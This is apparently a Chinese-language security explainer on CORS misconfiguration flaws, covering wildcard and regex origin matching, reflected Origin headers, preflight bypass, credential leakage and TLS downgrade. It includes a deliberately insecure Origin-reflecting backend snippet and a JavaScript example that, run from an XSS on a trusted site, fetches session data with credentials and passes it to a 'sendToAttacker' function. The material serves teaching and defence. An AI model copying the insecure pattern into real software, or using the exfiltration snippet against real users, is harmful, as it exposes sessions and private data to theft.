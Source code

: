 1. **漏洞成因**
	- **宽松的 CORS 配置** ：开发者使用通配符允许所有子域名（如 `Access-Control-Allow-Origin: *.example.com`），但未严格限制子域层级或域名归属。
	- **域名解析漏洞** ：某些 DNS 服务允许用户注册类似 `legit.example.com.attacker.net` 的子域名（需结合解析器缺陷），使攻击者伪装成合法子域。
	- **正则匹配缺陷** ：服务器使用不严谨的正则表达式（如 `.*\.example\.com`），可能匹配到非预期域名（如 `evil-example.com`）。

2. **攻击场景示例**
	- **恶意子域注册** ：攻击者注册 `attacker.example.com`（若允许用户自定义子域），托管恶意脚本发起跨域请求。
	- **公共子域滥用** ：利用目标已存在的公开子域（如 `blog.example.com`）的 XSS 漏洞，通过该子域发起跨域请求窃取主站数据。
	- **通配符层级逃逸** ：配置 `*.example.com` 时，部分服务器可能允许 `a.b.example.com`，导致子域权限过度扩散。

### 2. **反射型 Origin 漏洞**
反射型Origin漏洞是指攻击者通过某种方式让服务器反射或错误地返回Origin头，从而导致CORS配置错误。
```python
# 危险的后端实现
origin = request.headers.get('Origin')
response.headers['Access-Control-Allow-Origin'] = origin  # 无过滤直接反射
```
- **漏洞模式**：
  - 攻击者伪造 Origin 头：`Origin: https://attacker.com`
  - 服务端不加验证直接返回 `Access-Control-Allow-Origin: https://attacker.com`
- **利用条件**：需要诱导用户访问恶意页面发起跨域请求

### 3. **预检请求绕过漏洞**
预检请求绕过漏洞可能出现在服务器没有正确验证预检请求，或者错误地处理某些请求，导致攻击者可以绕过预检步骤直接发送实际请求。比如，服务器可能对OPTIONS请求返回200，但未正确设置CORS头，或者对某些HTTP方法或头没有限制，导致攻击者可以发送恶意请求。
```http
Access-Control-Allow-Methods: PUT, DELETE  # 允许危险方法
Access-Control-Allow-Headers: *  # 通配符允许任意请求头
```
- **攻击方式**：
  - 通过构造特殊请求头执行敏感操作
  ```javascript
  fetch('https://api.example.com/data', {
    method: 'PUT',
    headers: {'X-Dangerous-Header': 'payload'}
  })
  ```

### 4. **凭证泄漏漏洞**
```http
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://legit-site.com
```
- **跨站攻击**：若 `legit-site.com` 存在 XSS，攻击者可：
  ```javascript
  // 在合法站点的XSS中执行
  fetch('https://api.example.com/session', {credentials: 'include'})
    .then(res => res.text())
    .then(data => sendToAttacker(data))
  ```

### 5. **协议降级漏洞**
攻击者通过**中间人（MitM）** 干预通信协商过程，强制客户端与服务端使用**低安全性协议版本** （如 TLS 1.0 → SSL 3.0）或**弱加密算法** ，从而绕过高版本协议的安全机制，实现数据窃取或篡改。

